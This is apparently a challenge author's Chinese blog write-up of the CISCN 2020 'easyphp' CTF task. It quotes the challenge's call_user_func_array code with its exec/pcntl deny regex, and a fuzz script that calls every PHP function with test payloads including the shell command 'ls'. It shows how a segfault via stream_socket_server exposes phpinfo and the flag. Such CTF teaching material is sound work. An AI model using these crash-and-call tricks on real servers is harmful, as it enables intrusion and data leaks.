 categories:
- 杂
tags:
- web
- ctf
- 出题笔记
title: ciscn2020easyphp出题笔记
---
# easyphp出题笔记

这题原意是想让大家写脚本来fuzz来发现CUFA/CUF中对引用处理不恰当而造成的崩溃，特意禁止了pcntl可是由于没有认真测试，忘记了还有CUF这个函数，结果有人直接绕过了。

出题人想干的事情就是我们不让他干成就是对这种情况的最好解释。最后看到自己的题目被解成那样，我也是自闭了。

继续正题吧。

## 来由

之所以会出现这题是因为前段时间的wmctf的webweb反序列化出有这样一处的利用点，我为了找到合适的函数就采取fuzz，东西没发现倒是发现php崩溃了。



## 漏洞细节

直接去看[bugs.php](https://bugs.php.net/bug.php?id=79979) 上面的，会不会是因为交到bugs.php上的原因导致这么多人解了？



## 原解

阅读代码我们发现:`if(!pcntl_wifexited($status)){phpinfo();}`，及fork的子进程报错就会执行phpinfo，而phpinfo里面通常包含敏感信息，和一些对我们题目有帮助的信息。

fork子进程执行的代码是：

```php
if(isset($_GET['a'])&&is_string($_GET['a'])&&!preg_match("/[:\\\\]|exec|pcntl/i",$_GET['a'])){
            call_user_func_array($_GET['a'],[$_GET['b'],false,true]);
```

而这里调用了非常敏感的call_user_func_array，所以无论是想让子进程报错还是直接执行代码这里都是非常好的选择。因此我们先要写个fuzz脚本：

```php
<?php

    $payloads=[
        "ls",//shell命令执行测试
        "index.php",//读取文件测试
        "asdfasldfjaklsdfjl.php",//创建文件/文件夹测试
        "echo 123;"//php命令执行测试
    ];
    $str=file_get_contents("fatalerr.log");
    if(!$str){
        $str="[]";
    }
    $fatalerror=eval("return ".$str.";");
    function show_result($func,$r,$v){
        if($r==NULL){
        }
        try{
            echo "$func($v,false,true) return value:";
            var_dump($r);
            echo "<br />";
        }catch(Exception $e){}
    }

    function brute_func($a){
        global $payloads;
        global $fatalerror;
        
        foreach($a as $val){
            
            if(is_array($val)){
                brute_func($val);
                continue;
            }
            
            if(in_array($val,$fatalerror)){
                continue;
            }
            array_push($fatalerror,$val);
            file_put_contents("fatalerr.log",var_export($fatalerror,TRUE));
            foreach($payloads as $v){
                $r=NULL;
                
                $r=call_user_func_array($val,[$v,false,true]);
                show_result($val,$r,$v);
                
            }
            array_pop($fatalerror);
            
        }
    };
    $arr=get_defined_functions();
    brute_func($arr);
?>
```



多次执行发现：

```php
stream_socket_server
exec
stream_socket_client
```

这三个函数会引起segment_fault 且 exec虽然会引起segment  fault但是仍然执行了代码，但是这里我禁用了exec所以我们用另外两个函数引起segment fault查看phpinfo，在phpinfo中找到flag。



## 最后

希望有师傅有不同的解可以留个言啥的谢谢啦